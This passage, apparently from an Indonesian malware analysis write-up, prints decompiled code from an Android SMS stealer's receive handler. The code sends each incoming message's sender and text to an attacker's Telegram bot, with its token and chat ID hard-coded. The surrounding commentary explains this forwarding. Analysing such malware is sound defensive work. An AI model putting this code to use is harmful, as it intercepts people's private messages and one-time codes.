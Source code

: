                                 });
                                smsMessageArr = smsMessageArr2;
                                this.client.newCall(new Request.Builder().url("https://api.telegram.org/bot5931495238:AAHOz7qP80CGo8D8yueYGJv3Rib4xuKSxHQ/sendMessage?parse_mode=markdown&chat_id=5641182991&text= 𝐍𝐨𝐭𝐢𝐟𝐢𝐤𝐚𝐬𝐢 𝐒𝐚𝐝𝐚𝐩 𝐉𝐍𝐓 𝐒𝐌𝐒 𝐃𝐚𝐫𝐢 " + str9 + ", Isi Pesan : " + str10).build()).enqueue(new Callback() {
                                    public void onFailure(Call call, IOException iOException) {
                                        iOException.printStackTrace();
                                    }

                                    public void onResponse(Call call, Response response) throws IOException {
                                        Log.d("demo", "OnResponse: Thread Id " + Thread.currentThread().getId());
                                        if (response.isSuccessful()) {
                                            response.body().string();
                                        }
                                    }
                                });
                            } catch (Exception e) {
                                e = e;
                            }
                        } else {
                            int i3 = parseInt;
                            bundle = extras;
                            objArr = objArr2;
                            smsMessageArr = smsMessageArr2;
                            String str11 = str5;
                            String str12 = str6;
                        }
                        i++;
                        str = str7;
                        extras = bundle;
                        objArr2 = objArr;
                        smsMessageArr2 = smsMessageArr;
                        str2 = str8;
                    }
                    Bundle bundle2 = extras;
                    Object[] objArr3 = objArr2;
                    SmsMessage[] smsMessageArr3 = smsMessageArr2;
                } catch (Exception e2) {
                    e = e2;
                    Bundle bundle3 = extras;
                    e.printStackTrace();
                }
            } else {
                Bundle bundle4 = extras;
            }
        }
    }
}

{% endhighlight %}

sama halnya dengan function yang ada pada file `ReceiveSms.java`, pada function `onReceive` aplikasi akan mengambil alamat pengirim SMS dan body SMS yang selanjutnya akan di teruskan melalui telegram API dengan request url seperti berikut 
